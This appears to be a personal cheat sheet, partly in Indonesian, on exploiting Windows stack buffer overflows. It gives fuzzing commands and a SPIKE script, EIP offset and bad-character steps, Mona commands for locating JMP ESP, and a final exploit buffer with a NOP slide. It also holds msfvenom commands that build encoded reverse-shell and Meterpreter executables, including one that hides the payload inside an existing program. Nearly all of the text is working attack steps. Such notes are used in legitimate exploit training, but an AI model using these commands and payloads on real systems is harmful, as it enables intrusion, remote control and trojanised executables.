

# windows BOF

if it have a command then spike a command first to look which command are vulnerable

- connect with nc -nv $ip port help / HELP to see command  
- use generic\_send\_tcp to spike a variable  
 → how to use ?  
 ⇒ ./generic\_send\_tcp $ip port script.spk 0 0  
 • isi scriptnya :

 ◇ s\_readline\(\);  
 ◇ s\_string\("nama\_command "\) ; // jangan lupa ada spasi setelah string command  
 ◇ s\_string\_variable\("0"\);

 • simpan kedalam file dengan ekstensi .spk \(eg: command.spk\)

Windows Buffer Overflows

 - Controlling EIP

 locate pattern\_create  
 pattern\_create.rb -l 2700  
 locate pattern\_offset  
 pattern\_offset.rb -q 39694438

 - Verify exact location of EIP - \[\\*\] Exact match at offset 2606

 buffer = "A" \\* 2606 + "B" \\* 4 + "C" \\* 90

 - Check for “Bad Characters” - Run multiple times 0x00 - 0xFF

 - Use Mona to determine a module that is unprotected

 - Bypass DEP if present by finding a Memory Location with Read and Execute access for JMP ESP

 - Use NASM to determine the HEX code for a JMP ESP instruction

 /usr/share/metasploit-framework/tools/exploit/nasm\_shell.rb

 JMP ESP  
 00000000 FFE4 jmp esp

 - Run Mona in immunity log window to find \(FFE4\) XEF command

 !mona find -s "\xff\xe4" -m slmfc.dll  
 found at 0x5f4a358f - Flip around for little endian format  
 buffer = "A" \* 2606 + "\x8f\x35\x4a\x5f" + "C" \* 390

 - MSFVenom to create payload

 msfvenom -p windows/shell\_reverse\_tcp LHOST=$ip LPORT=443 -f c –e x86/shikata\_ga\_nai -b "\x00\x0a\x0d"

 - Final Payload with NOP slide

 buffer="A"\*2606 + "\x8f\x35\x4a\x5f" + "\x90" \* 8 + shellcode

 - Create a PE Reverse Shell  
 msfvenom -p windows/shell\\_reverse\\_tcp LHOST=$ip LPORT=4444  
 -f  
 exe -o shell\\_reverse.exe

 - Create a PE Reverse Shell and Encode 9 times with  
 Shikata\\_ga\\_nai  
 msfvenom -p windows/shell\\_reverse\\_tcp LHOST=$ip LPORT=4444  
 -f  
 exe -e x86/shikata\\_ga\\_nai -i 9 -o  
 shell\\_reverse\\_msf\\_encoded.exe

 - Create a PE reverse shell and embed it into an existing  
 executable  
 msfvenom -p windows/shell\\_reverse\\_tcp LHOST=$ip LPORT=4444 -f  
 exe -e x86/shikata\\_ga\\_nai -i 9 -x  
 /usr/share/windows-binaries/plink.exe -o  
 shell\\_reverse\\_msf\\_encoded\\_embedded.exe

 - Create a PE Reverse HTTPS shell  
 msfvenom -p windows/meterpreter/reverse\\_https LHOST=$ip  
 LPORT=443 -f exe -o met\\_https\\_reverse.exe

 MONA

 - !mona config -set workingfolder c:\monalogs\%p\_%i  
 - !mona find -s "\xff\xe4" -m dostackbufferoverflowgood.exe  
 - !mona bytearray \(untuk generate badchars\)  
 - !mona compare -f c:\lokasi bytearray -a esp \|\| -a lokasi address setelah eip\)  
 - inget badchars hapus \x00 karena gabisa di detect / di compare dimona  
 

